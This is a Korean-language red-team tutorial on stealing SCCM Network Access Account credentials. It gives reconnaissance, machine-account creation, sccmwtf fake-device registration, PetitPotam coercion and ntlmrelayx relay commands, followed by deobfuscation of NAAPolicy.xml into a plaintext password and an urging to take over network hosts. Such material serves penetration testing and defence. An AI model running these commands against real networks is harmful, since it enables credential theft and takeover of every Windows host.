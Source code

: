 # SCCM

## 개념

SCCM(Microsoft System Center Configuration Manager)은 네트워크 내 윈도우 호스트들을 업데이트하거나 패치 하는데 사용되는 Intune 솔루션 제품들 중 하나다.

* **SCCM Server:** SCCM을 전반적으로 관리하는 서버
* **SCCM Client:** SCCM에 등록된 뒤 업데이트 및 패치를 받을 클라이언트 호스트
* **DP (Distribution Point):** SCCM 클라이언트들이 다운받고 설치할 패키지들을 배포하는 서버
* **NAA (Network Access Account):** SCCM 클라이언트가 머신 계정으로 DP나 SCCM 서버에 접근할 수 없는 경우, 대신 사용하게 되는 SCCM 전용 네트워크 접근 계쩡

SCCM에는 NAA라는 계정이 존재한다. 클라이언트들은 SCCM 서버 혹은 DP 서버에 접근할 때 원래 자신의 머신 계정을 이용하는데, 이때 접근이 불가능할 경우 NAA를 사용하게 된다. NAA와 관련된 계정 정보 (유저이름, 비밀번호) SCCM 클라이언트가 SCCM 서버에 등록될 때 자동적으로 클라이언트에게 전송된다. 클라이언트가 서버에 등록할 때 다양한 정책과 설정 관련된 파일들을 XML 형태로 다운받게 되는데, 이때 NAA 계정 정보가 들어간 `NAAConfig.xml` 도 같이 다운받게 된다.

`NAAPolicy.xml` 에는 NAA 계정 정보가 암호화 + 난독화 되어 있는 상태로 저장된다. 먼저 난독화가 진행된 뒤, 이 난독화된 blob에 암호화를 진행한다. 암호화에는 SCCM 클라이언트가 등록할 때 생성한 Self-Signed Certificate 의 RSA 공개 키에서 도출된 키가 사용된다.

## 공격

#### 공격 사전 조건

1. SCCM 서버가 네트워크안에 있으며, SCCM을 사용 중
2. SCCM 서버가 NAA 를 사용하도록 설정
3. 공격자가 머신 계정을 생성할 수 있도록 MachineAccountQuota 가 0 이상이거나, Authentication Coercion 공격 가능

위 조건들이 맞는 다면 공격자는 만들어놨던 머신 계정을 이용하거나 Authentication Coercion을 이용해 SCCM 서버에 머신 계정으로 접근한 뒤, 가짜 디바이스를 생성하고 SCCM 서버에 등록한 다음, 서버가 배포하는 `NAAConfig.xml` 에서 `NAAPolicy.xml` 을 받아온다. 그 뒤, 자신의 Self-Signed Certificate RSA 공개키에서 도출한 키를 사용해 NAA 계정 정보를 복호화 한 뒤, 윈도우의 기본 DLL 파일인 `PolicyAgent.dll` 을 이용해 NAA 계정 정보를 역난독화 한 뒤 NAA 의 평문 유저 이름과 비밀번호를 알아낼 수 있다.

NAA 계정의 경우 네트워크 내 호스트들에 접근한 뒤 패키지들을 설치하거나 패치를 진행하는 등의 일을 해야하기 때문에 로컬 관리자 권한을 갖고 있는 경우가 많다. 즉, NAA 계정 정보만 성공적으로 얻어낼 수 있다면 공격자는 순식간에 네트워크 내의 모든 윈도우 호스트들을 장악할 수 있게 된다.

## 실습

### 정보 수집

SCCM 서버 정보 수집

```
# DNS 
sccm.domain.com, sccmcm.domain.com, sccmdp.domain.com 등으로 검색 

# HTTP/HTTPS 
1. 모든 웹 서버 아이피주소 확인 (nmap -> grep + cut + sort) 
2. curl, gowitness 등을 사용해 http(s)://<host>/ccm_system_windowsauth/request 페이지가 존재하는지, 존재 한다면 basic auth 를 나타내는지 확인 
```

MAQ 및 Auth Coercion 확인

```
cme ldap <dc> -u <u> -p <p> -M maq 
cme smb <host> -u <u> -p <p> -M petitpotam,spooler,dfscoerce,shadowcoerce 
```

### 공격 1 - Machine Account + SCCMWtf

머신 계정을 생성한 뒤 SCCM 서버에 접근, 가짜 디바이스 생성, NAAConfig + NAAPolicy를 받아온다

```
# 머신 계정 생성 
addcomputer.py domain.com/user:pass -dc-ip <dc> -computer-name 'fakeComp' -computer-pass '<pass>'

# SCCMWtf
git clone https://github.com/xpn/sccmwtf
python3 sccmwtf.py fake-device fake-device.domain.com SCCM 'domain.com\fakeComp$' '<pass>'

# NAAPolicy.xml 받은 뒤 Post-Ex 단계로 진행 
```

### 공격 2 - Authentication Coercion + SCCM Relay

```
# Authentication Coercion. 예) Petitpotam 
python3 petitpotam.py -u <u> -p <p> <attackerIP> <targetIP>

# SCCM 서버를 향해 SCCM Relay 
- ThePorgs 포크 버전 사용 (https://github.com/ThePorgs/impacket) 

ntlmrelayx.py -t http://<server>/ccm_system_windowsauth/request --sccm --sccm-device fake-device --sccm-fqdn domain.com --http-port 80 --sccm-server sccm --sccm-sleep 10 -smb2support 

# NAAPolicy.xml 받은 뒤 Post-Ex 단계로 진행 
```

### Post-Ex - NAAPolicy.xml 역난독화

XPN이 발표한 `policysecretunobfuscate.c` 를 컴파일 한 뒤, `NAAPolicy.xml` 파일안의 `NetworkAccessUsername` 와 `NetworkAccessPassword` 의 CDATA 값을 줘서 실행하면 평문 비밀번호가 나온다.

```
PS C:\dev\naadeobs\x64\Debug> .\naadeobs.exe 112233<REDACTED>
choi\sccm-naa


PS C:\dev\naadeobs \x64\Debug> .\naadeobs.exe 112233<REDACTED>
Password123!
```

이제 얻어낸 평문 유저 이름과 평문 비밀번호로 네트워크 내 다양한 머신들을 장악하면 된다.

### 레퍼런스

* https://blog.xpnsec.com/unobfuscating-network-access-accounts/
* https://github.com/xpn/sccmwtf
* https://github.com/ThePorgs/impacket/pull/14
* https://www.thehacker.recipes/ad/movement/sccm-mecm
* https://posts.specterops.io/the-phantom-credentials-of-sccm-why-the-naa-wont-die-332ac7aa1ab9
